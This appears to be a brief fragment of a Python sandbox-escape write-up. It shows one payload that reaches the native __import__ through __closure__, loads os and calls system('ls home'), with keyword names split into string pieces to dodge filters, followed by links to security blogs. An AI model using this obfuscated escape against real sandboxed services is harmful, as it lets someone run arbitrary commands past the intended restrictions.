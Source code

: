### Looking for an indirect reference to __import__
In the continuous dir process, I found that __closure__ this object saves the parameters, you can refer to the native __import__
```py



print __import__.__getattribute__('__clo'+'sure__')[0].cell_contents('o'+'s').__getattribute__('sy'+'stem')('l'+'s home') 

```

# 参考
https://xz.aliyun.com/t/52#toc-10 

https://blog.csdn.net/qq_35078631/article/details/78504415 

https://www.anquanke.com/post/id/85571 

http://bestwing.me/2018/05/03/awesome-python-sandbox-in-ciscn/#0x01
